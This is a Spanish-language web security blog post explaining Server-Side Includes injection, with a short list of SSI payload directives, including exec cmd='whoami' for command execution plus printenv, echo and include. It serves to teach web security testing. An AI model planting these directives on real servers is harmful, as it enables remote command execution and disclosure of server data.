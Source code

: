 ```yaml
---
date: 2025-10-20T21:51:05.000Z
layout: post
comments: true
title: "Server-Side Includes Injection"
subtitle: 'SSI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssi
author: Felipe Canales Cayuqueo
paginate: true
---
```


**Server-Side Includes (SSI)** es una técnica usada por servidores web para insertar contenido dinámico en páginas HTML estáticas mediante directivas especiales (por ejemplo `<!--#include ...-->`). Habitualmente aparece en archivos con extensiones como `.shtml`, `.shtm` o `.stm`, aunque el servidor puede configurarse para procesarlas en otras extensiones.

La **inyección SSI** ocurre cuando un atacante logra que directivas SSI controladas por él se escriban o sirvan desde el servidor (por ejemplo subiendo un archivo con directivas al directorio raíz web o haciendo que la app guarde entrada del usuario en un archivo servible). Si el servidor procesa esas directivas, el atacante puede ejecutar comandos, incluir archivos o filtrar variables de entorno, lo que implica riesgo de divulgación de información o ejecución remota.

### Payloads

#### Printenv 

Directiva que imprime variables de entorno.

```
<!--#printenv -->
```

#### Config

Esta directiva cambia la configuración de SSI especificando los parámetros correspondientes.

```
<!--#config errmsg="Error!" -->
```

#### Eco

Esta directiva imprime el valor de cualquier variable dada en el var parámetro. 

* DOCUMENT_NAME: el nombre del archivo actual.
* DOCUMENT_URI: la URI del archivo actual.
* LAST_MODIFIED: marca de tiempo de la última modificación del archivo actual.
* DATE_LOCAL: hora del servidor local.

```
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
```

#### Exec

Esta directiva ejecuta comandos en el sistema.

```
<!--#exec cmd="whoami" -->
```

#### Include

Esta directiva permite la inclusión de archivos en el directorio raíz web.

```
<!--#include virtual="index.html" -->
```


